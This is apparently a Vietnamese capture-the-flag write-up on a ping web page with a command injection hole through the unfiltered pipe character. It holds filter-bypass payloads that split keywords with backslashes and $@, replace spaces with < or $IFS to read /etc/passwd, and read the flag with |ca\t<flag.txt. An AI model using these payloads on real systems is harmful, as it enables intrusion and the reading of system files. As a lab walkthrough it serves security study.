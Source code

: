 Web có chức năng ping đến 1 IP được nhập vào và hiện thị kết quả:

![image](https://user-images.githubusercontent.com/92881216/233627651-f7ec05fc-2c1e-4874-95db-ccb1b8d13cd2.png)

Khi nhập `127.0.0.1` :

![image](https://user-images.githubusercontent.com/92881216/233627887-af6925de-17ef-48ea-92c8-72011addb757.png)

Web có filter 1 số thứ:
- Các câu lệnh linux như: `ls`, `cat`, `bash`, `curl`,...
- Một số ký tự như: ` `, `(`, `)`, `&`, `;`,...

Tuy nhiên lại bỏ qua `|` => dễ bị lỗi command injection

Khai thác:

- Bypass các từ bị filter: 
```
w'h'o'am'i  => loại vì ' hay " đều bị filter
``` 

```
w\ho\am\i => ok
```

```
who$@ami  => ok
```

Kết quả: 

![image](https://user-images.githubusercontent.com/92881216/233629074-91e5134c-ed99-4cb8-8bec-d44dc98fa8b0.png)

![image](https://user-images.githubusercontent.com/92881216/233629126-475151d3-adf3-4b2f-ab51-0894cf26d932.png)

Tiếp theo là cần đọc file `flag.txt` nhưng ` `(space) bị filter. Cách bypass:
```
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash
```
Hoặc có thể:
```
swissky@crashlab:~$ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```
Kết quả:

payload: `|ca\t<flag.txt`

![image](https://user-images.githubusercontent.com/92881216/233629502-e56c3b78-8944-43aa-9414-44a057da6bd3.png)



